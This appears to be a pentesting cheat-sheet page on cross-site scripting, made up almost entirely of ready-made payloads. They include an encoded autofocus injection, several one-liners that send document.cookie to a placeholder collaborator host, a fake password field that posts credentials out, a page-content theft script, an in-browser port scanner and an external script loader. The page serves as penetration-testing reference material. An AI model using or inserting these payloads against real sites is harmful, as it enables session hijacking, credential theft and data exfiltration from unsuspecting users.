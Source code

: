 ```yaml
---
title: XSS
description: Cross-site scripting (XSS) is a web security vulnerability that allows an attacker to compromise the interactions that users have with a vulnerable application.
badge: Web
---
```



## Examples

### Injections

```html
"><input onfocus=eval(atob(this.id)) id={{ xss-payload alert(1) } b64 } autofocus>
```

### Exploitation

#### Steal cookies

```js
fetch('https://{{ collaborator your.burpcollaborator.net }}', {method: 'POST', mode: 'no-cors', body:document.cookie})
```

```js
var xhttp = new XMLHttpRequest(); xhttp.open("GET", "http://{{ collaborator your.burpcollaborator.net }}/?c=" + document.cookie, true);xhttp.send();
```

```js
navigator.sendBeacon('https://{{ collaborator your.burpcollaborator.net }}/',document.cookie)
```

```html
<img src=x onerror="this.src='http://{{ collaborator your.burpcollaborator.net }}/?c='+document.cookie">
```

#### Capture password auto-fill

```html
<b>Username:</b><br>
<input name=username id=username>
<b>Password:</b><br>
<input type=password name=password onchange="if(this.value.length)fetch'https://{{ collaborator your.burpcollaborator.net }}',{method:'POST', mode: 'no-cors', body:username.value+':'+this.value});">
```

#### Steal Page Content

```js
var url = "{{ target-url http://localhost:8000/info/me }}";
var attacker = "https://{{ collaborator your.burpcollaborator.net }}";
var xhr  = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
    }
}
xhr.open('GET', url, true);
xhr.send(null);
```

#### Port Scanning

```js
const checkPort = (port) => { fetch(http://localhost:${port}, { mode: "no-cors" }).then(() => { let img = document.createElement("img"); img.src = https://{{ collaborator your.burpcollaborator.net }}/ping?port=${port}; }); } for(let i=0; i<1000; i++) { checkPort(i); }
```

## Blind XSS

### XSS Hunter

#### Custom XSS Hunter payloads

```js
var a=document.createElement("script");a.src="https://{{ xss-hunter-username your-username }}.xss.ht";document.body.appendChild(a);
```

## Bypass WAF

![Mutation points in a tag for WAF bypass](web_client_xss_a_mutation_points.jpg)

## Angular.js
